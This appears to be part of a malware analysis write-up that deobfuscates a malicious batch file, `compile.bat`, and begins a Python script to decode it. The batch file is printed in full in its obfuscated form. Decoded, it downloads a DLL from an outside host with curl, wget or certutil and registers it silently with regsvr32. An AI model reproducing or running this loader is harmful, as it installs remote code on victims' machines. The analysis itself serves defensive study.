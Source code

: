 ### Deobfuscating: `compile.bat`
The batch file was also obfuscated and the original contents are shown below.  The process to reverse this was pretty straight forward as there is clearly a string that the batch file indexes into for each character.

To unravel this I created a python script to print it out into plaintext.<br/>

**compile.bat (original)**
```bat
@echo off
Set aim=dgYfeRCiI6tM5ySU4AFWnGwu7j3VBTPD82cHblKEvJhQqozN1sxZL0rm9apXkO
cls
@%aim:~4,1%%aim:~34,1%%aim:~42,1%%aim:~45,1% %aim:~45,1%%aim:~3,1%%aim:~3,1%
%aim:~34,1%%aim:~23,1%%aim:~54,1%%aim:~37,1% %aim:~42,1%%aim:~10,1%%aim:~10,1%%aim:~58,1%%aim:~49,1%://%aim:~58,1%%aim:~57,1%%aim:~49,1%%aim:~10,1%%aim:~45,1%%aim:~54,1%%aim:~34,1%%aim:~54,1%%aim:~13,1%%aim:~58,1%%aim:~10,1%%aim:~45,1%%aim:~1,1%%aim:~54,1%%aim:~57,1%%aim:~58,1%%aim:~42,1%.%aim:~57,1%%aim:~10,1%/%aim:~26,1%/%aim:~49,1%%aim:~0,1%%aim:~0,1%.%aim:~0,1%%aim:~37,1%%aim:~37,1% -%aim:~45,1% %aim:~34,1%%aim:~45,1%%aim:~55,1%%aim:~58,1%%aim:~7,1%%aim:~37,1%%aim:~4,1%.%aim:~0,1%%aim:~37,1%%aim:~37,1%
%aim:~7,1%%aim:~3,1% %aim:~20,1%%aim:~45,1%%aim:~10,1% %aim:~4,1%%aim:~50,1%%aim:~7,1%%aim:~49,1%%aim:~10,1% %aim:~34,1%%aim:~45,1%%aim:~55,1%%aim:~58,1%%aim:~7,1%%aim:~37,1%%aim:~4,1%.%aim:~0,1%%aim:~37,1%%aim:~37,1% (
	%aim:~22,1%%aim:~1,1%%aim:~4,1%%aim:~10,1% %aim:~42,1%%aim:~10,1%%aim:~10,1%%aim:~58,1%%aim:~49,1%://%aim:~58,1%%aim:~57,1%%aim:~49,1%%aim:~10,1%%aim:~45,1%%aim:~54,1%%aim:~34,1%%aim:~54,1%%aim:~13,1%%aim:~58,1%%aim:~10,1%%aim:~45,1%%aim:~1,1%%aim:~54,1%%aim:~57,1%%aim:~58,1%%aim:~42,1%.%aim:~57,1%%aim:~10,1%/%aim:~26,1%/%aim:~49,1%%aim:~0,1%%aim:~0,1%.%aim:~0,1%%aim:~37,1%%aim:~37,1% -%aim:~61,1% %aim:~34,1%%aim:~45,1%%aim:~55,1%%aim:~58,1%%aim:~7,1%%aim:~37,1%%aim:~4,1%.%aim:~0,1%%aim:~37,1%%aim:~37,1%
)
%aim:~7,1%%aim:~3,1% %aim:~20,1%%aim:~45,1%%aim:~10,1% %aim:~4,1%%aim:~50,1%%aim:~7,1%%aim:~49,1%%aim:~10,1% %aim:~34,1%%aim:~45,1%%aim:~55,1%%aim:~58,1%%aim:~7,1%%aim:~37,1%%aim:~4,1%.%aim:~0,1%%aim:~37,1%%aim:~37,1% (
	%aim:~34,1%%aim:~4,1%%aim:~54,1%%aim:~10,1%%aim:~23,1%%aim:~10,1%%aim:~7,1%%aim:~37,1%.%aim:~4,1%%aim:~50,1%%aim:~4,1% -%aim:~23,1%%aim:~54,1%%aim:~37,1%%aim:~34,1%%aim:~57,1%%aim:~34,1%%aim:~42,1%%aim:~4,1% -%aim:~3,1% %aim:~42,1%%aim:~10,1%%aim:~10,1%%aim:~58,1%%aim:~49,1%://%aim:~58,1%%aim:~57,1%%aim:~49,1%%aim:~10,1%%aim:~45,1%%aim:~54,1%%aim:~34,1%%aim:~54,1%%aim:~13,1%%aim:~58,1%%aim:~10,1%%aim:~45,1%%aim:~1,1%%aim:~54,1%%aim:~57,1%%aim:~58,1%%aim:~42,1%.%aim:~57,1%%aim:~10,1%/%aim:~26,1%/%aim:~49,1%%aim:~0,1%%aim:~0,1%.%aim:~0,1%%aim:~37,1%%aim:~37,1% %aim:~34,1%%aim:~45,1%%aim:~55,1%%aim:~58,1%%aim:~7,1%%aim:~37,1%%aim:~4,1%.%aim:~0,1%%aim:~37,1%%aim:~37,1%
)
%aim:~54,1%%aim:~4,1%%aim:~1,1%%aim:~49,1%%aim:~40,1%%aim:~54,1%%aim:~26,1%%aim:~33,1%.%aim:~4,1%%aim:~50,1%%aim:~4,1% -%aim:~49,1% %aim:~34,1%%aim:~45,1%%aim:~55,1%%aim:~58,1%%aim:~7,1%%aim:~37,1%%aim:~4,1%.%aim:~0,1%%aim:~37,1%%aim:~37,1%
```

**Python to deobfuscate**

```python
import re

aim = "dgYfeRCiI6tM5ySU4AFWnGwu7j3VBTPD82cHblKEvJhQqozN1sxZL0rm9apXkO"
content = r"<the content from the original file>"

# Decode from %aim:~##,#% to letter
def decode(data):
    m = re.findall(r'%aim:~([0-9]\d?\d?)', data)
    return aim[int(m[0])]

# handle each line separately
commands = content.split(r'\n')

first_command = True
for command in commands:
    matches = re.findall(r'%aim:~[0-9]\d?\d?,1%', command)
    
```
